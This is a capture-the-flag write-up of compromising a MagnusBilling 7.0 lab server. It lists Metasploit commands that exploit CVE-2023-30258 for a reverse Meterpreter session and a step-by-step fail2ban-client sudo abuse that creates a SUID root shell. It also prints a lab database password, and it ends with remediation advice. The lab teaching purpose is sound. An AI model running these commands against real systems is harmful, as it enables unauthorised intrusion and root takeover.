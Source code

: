 # MagnusBilling 7.0 CTF Write-up

## Summary
This report documents the exploitation of a MagnusBilling v7.0 server during a Capture The Flag (CTF) challenge. A critical unauthenticated RCE vulnerability (CVE-2023-30258) was used to gain a foothold on the server, followed by a privilege escalation leveraging misconfigured sudo permissions on `fail2ban-client`.

---

### Target Information

- **Target IP**: 10.10.19.151  
- **Platform**: Linux  
- **Web Application**: MagnusBilling v7.0  
- **Vulnerabilities Exploited**:  
  - CVE-2023-30258 (Unauthenticated Remote Code Execution)  
  - Misconfigured Fail2Ban (Local Privilege Escalation)  
  - Hardcoded database credentials

---

### Phase 1: Initial Compromise

#### Network Reconnaissance
```bash
nmap -sV -sC 10.10.19.151
```

Discovered HTTP service on port 80 running MagnusBilling.

#### Vulnerability Research
Identified public exploit for unauthenticated RCE:

•	Rapid7 Module: exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258

A Metasploit module is available:
```
exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```

#### Exploitation
```bash
msf6 > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
msf6 exploit() > set RHOSTS 10.10.19.151
msf6 exploit() > set LHOST 10.9.3.170
msf6 exploit() > set TARGET 0
msf6 exploit() > exploit
```
**Result**: Meterpreter session obtained as user `asterisk`.

---

### Phase 2: Post-Exploitation

### User Flag
```bash
meterpreter > cat /home/magnus/user.txt
```
**User Flag**: `THM{............}`

### Credential Discovery

Found credentials in `/etc/asterisk/res_config_mysql.conf`:
```
dbhost = 127.0.0.1  
dbname = mbilling  
dbuser = mbillingUser  
dbpass = BLOGYwvtJkI7uaX5
```

---

### Privilege Escalation

#### Check sudo permissions:
```bash
sudo -l
```
Output:
```
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

#### Local Privilege Escalation with `fail2ban-client`

**1. Copy Fail2Ban config:**
```bash
rsync -av /etc/fail2ban/ /tmp/fail2ban/
```

**2. Create payload script:**
```bash
cat > /tmp/script <<EOF
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script
```

**3. Custom action config:**
```bash
cat > /tmp/fail2ban/action.d/custom-start-command.conf <<EOF
[Definition]
actionstart = /tmp/script
EOF
```

**4. Create custom jail:**
```bash
cat >> /tmp/fail2ban/jail.local <<EOF
[my-custom-jail]
enabled = true
action = custom-start-command
EOF
```

**5. Restart Fail2Ban with custom config:**
```bash
sudo fail2ban-client -c /tmp/fail2ban/ -v restart
```

**6. Run the SUID shell:**
```bash
/tmp/bash -p
```

---

### Root Flag
```bash
cat /root/root.txt
```
**Flag**: `THM{.......}`

---

## Attack Flow (Graph)

```mermaid
graph TD
    A[Network Scan] --> B[Identify MagnusBilling]
    B --> C[Exploit CVE-2023-30258]
    C --> D[Meterpreter as asterisk]
    D --> E[Discover Sudo Privileges]
    E --> F[Exploit Fail2Ban Client]
    F --> G[Root Access]
```

---

## Critical Findings

| Vulnerability                         | Risk      | Impact                  |
|--------------------------------------|-----------|--------------------------|
| CVE-2023-30258 (Unauthenticated RCE) | Critical  | Full system compromise  |
| Fail2Ban misconfiguration            | High      | Local privilege escalation to root |
| Hardcoded DB credentials             | Medium    | Potential data theft or DB tampering |

---

## Remediation Recommendations

### Immediate Actions
- Patch MagnusBilling to the latest version.
- Revoke NOPASSWD sudo privileges for `fail2ban-client`.
- Rotate all credentials found in configuration files.

### Long-Term Improvements
- Enforce least privilege principle across all services.
- Perform regular vulnerability scans and patch assessments.
- Apply application allowlisting and endpoint protection.

### Defensive Measures
- Restrict remote access to admin interfaces.
- Monitor sudo activity and critical file access logs.
- Deploy a host-based intrusion detection system (HIDS).

---

## Appendices

### Technical References
- [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258)
- [Fail2Ban Local Privilege Escalation](https://juggernaut-sec.com/fail2ban-lpe/)

---

## Timeline
- **Discovery**: 2025-03-25  
- **Exploitation**: 2025-03-25  
- **Report Generated**: 2025-03-26
